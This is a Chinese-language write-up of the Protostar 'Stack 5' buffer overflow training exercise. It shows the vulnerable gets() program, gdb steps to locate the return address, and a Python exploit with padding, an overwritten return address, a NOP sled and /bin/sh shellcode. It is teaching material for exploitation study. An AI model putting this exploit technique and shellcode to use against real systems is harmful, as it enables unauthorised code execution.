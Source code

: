 # Stack 5

## （一） 题目：

\#include &lt;stdlib.h&gt;

\#include &lt;unistd.h&gt;

\#include &lt;stdio.h&gt;

\#include &lt;string.h&gt;

int main\(int argc, char \*\*argv\)

{

char buffer\[64\];

gets\(buffer\);

}

## （二）解题过程：

gdb 调试 stack5程序，在ret函数上下断点。

b 16

r

输入aaaaaaaaa

i r

print $esp

print $ebp

查看此时的内存布局 ，找到buff 和 ret的距离就可以计算出需要填充多少字节，恰好覆盖到ret地址，返回地址后面是argc argv

esp    buffer开始         buffer结束（ebp  ret\)   argc argv

esp                    esp+0x10        ebp                 ret                   argc              argv

0xbffffcd0     0xbffffce0      0xbffffd28    0xbffffd2c   0x00000001   0xbffffdd4

![](/png/15.png)

如图所示：构造payload

buff\[0\]+ 0x4c+ 返回地址+ shellcode

exploit

python -c "print 'a'\*76+'\x30\xfc\xff\xbf'+'\x90'\*20+shellcode

import struct

pad = "\x41" \* 76

EIP = struct.pack\("I", 0xbffffd30\)

shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

NOP = "\x90" \* 100

print pad + EIP + NOP + shellcode

![](/png/10.png)

![](/png/16.png)

方法2：快速定位漏洞触发的位置并写出exploit

第一种方法是手工定位，计算填充的字节数和eip返回地址。下面这种 方法借助于定位脚本快速定位。

思路

1）判断是否存在漏洞，先给buffer填充100个a看看是否崩溃。

![](/png/18.png)

显然，出现了熟悉的段错误。通常，我们会调试.coredump的方法找到出错的位置。现在我们用最基础最快速的方法来定位。（调试dump）下一种方法给出。





Ref：

[https://xz.aliyun.com/t/3908](https://xz.aliyun.com/t/3908)

[https://0xrick.github.io/binary-exploitation/bof5/](https://0xrick.github.io/binary-exploitation/bof5/)


